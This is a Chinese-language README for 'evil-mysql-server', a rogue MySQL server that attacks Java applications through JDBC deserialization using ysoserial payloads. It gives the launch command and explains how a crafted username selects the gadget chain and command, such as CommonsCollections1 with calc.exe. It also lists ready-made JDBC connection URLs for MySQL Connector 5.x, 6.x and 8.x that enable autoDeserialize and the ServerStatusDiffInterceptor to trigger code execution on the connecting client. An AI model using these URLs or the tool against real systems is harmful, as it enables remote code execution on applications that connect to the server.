 # evil mysql server

[English](./README.MD) | 简体中文

## 简介

**evil-mysql-server** 是一个针对 jdbc 反序列化漏洞编写的恶意数据库，依赖 [ysoserial](https://github.com/frohoff/ysoserial) 。

使用方式

```shell
. /evil-mysql-server -addr 3306 -java java -ysoserial ysoserial-0.0.6-SNAPSHOT-all.jar
```


启动成功后，使用 jdbc 进行连接，其中用户名称格式为 `yso_payload_command` , 连接成功后 `evil-mysql-server` 会解析用户名称，并使用如以下命令生成恶意数据返回到 jdbc 客户端。
```shell
java -jar ysoserial.jar CommonsCollections1 calc.exe
```

## JDBC url 示例

**5.1.11-5.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**6.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

**8.x**
```shell
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections1_calc.exe
```

## 致谢

感谢以下项目，带来的启发

- [MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)